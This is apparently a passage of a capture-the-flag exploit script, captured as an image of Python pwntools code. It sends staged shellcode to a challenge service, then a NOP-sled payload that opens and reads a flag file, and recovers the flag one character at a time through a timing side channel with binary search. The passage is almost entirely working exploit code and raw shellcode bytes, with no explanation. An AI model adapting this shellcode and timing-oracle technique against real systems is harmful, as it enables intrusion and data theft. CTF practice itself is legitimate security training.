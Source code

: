 ```python
        # add rsi, rbx  
        # /* even */  
        # pop rcx  
        # sub [rsi + 0x11], bx   
        # /* odd */  
        # '''  
        p.recvuntil(b"Please input your shellcode:")  
        # pl = asm(shellcode) + b"\x10\x05\x90"  
        p.send(b"H1\xc0[Z[j\x01\x90[H\x01\xdeYf)^\x11\x10\x05\x90")  
  
        # payload = b"\x90" * 0x18  
        # payload += asm(shellcraft.open("./flag"))  
        # payload += asm(shellcraft.read(3, 'rsp', 0x80))  
        payload = b"\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90H\xb8\x01\x01\x01\x01\x01\x01\x01\x01PH\xb8/.gm`f\x01\x01H1\x04$H\x89\xe71\xd21\xf6j\x02X\x0f\x051\xc0j\x03_1\xd2\xb2\x80H\x89\xe6\x0f\x05"  
        # print(payload)  
        shellcode = f'''  
        mov dl,byte ptr [rsp+{i}]  
        mov cl,{mid}  
        cmp dl,cl  
        ja loop  
        mov al,0x1  
        syscall  
        loop:  
        xor rax, rax  
        mov rdi, 0  
        mov rsi, rsp  
        mov rdx, 0x80  
        syscall  
        '''  
        payload += asm(shellcode)  
        sleep(4)  
        try:  
          p.sendline(payload)  
            
          start_time = time.time()  
          p.clean(2)  
          start_time = time.time() - start_time  
  
        except:  
          pass  
        else:  
          if start_time > 2:  
            left = mid +1  
            p.close()     
          else:            
            right = mid  
            p.close()  
        info(f"time-->{count}")  
        count += 1  
    flag += chr(left)  
    info(flag)  
    if flag[-1]=="}":  
        break
```
